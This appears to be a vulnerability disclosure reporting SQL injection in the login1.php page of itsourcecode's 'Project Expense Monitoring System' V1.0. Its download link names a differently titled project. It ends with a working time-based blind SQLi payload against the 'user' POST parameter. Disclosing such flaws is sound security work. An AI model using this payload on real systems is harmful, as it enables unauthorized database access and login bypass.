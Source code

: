 # Vendor

itsourcecode

# Product

Project Expense Monitoring System

# version

V1.0

# Download 

https://itsourcecode.com/wp-content/uploads/2021/03/Construction-Management-System-Project-In-PHP-Source-Code.zip

# Vulnerability

SQLi

# Description

On the login1.php login authentication page, attackers can construct SQL statements to obtain sensitive information from the database and use universal passwords to log in to the backend.

# Analysis

In the login1.php page, the database query is performed through the mysqli_query method, and the input username string is not filtered enough, which can prevent XSS attacks, but cannot prevent SQLi injection.
<img width="1011" alt="image" src="https://github.com/user-attachments/assets/8d488cb3-e506-481b-81af-d2469191c994">
<img width="360" alt="image" src="https://github.com/user-attachments/assets/e431f357-40d1-4798-aec4-280992033630">

# POC
```
Parameter: user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=admin' AND (SELECT 5289 FROM (SELECT(SLEEP(5)))cTae) AND 'rmay'='rmay&pass=123
```
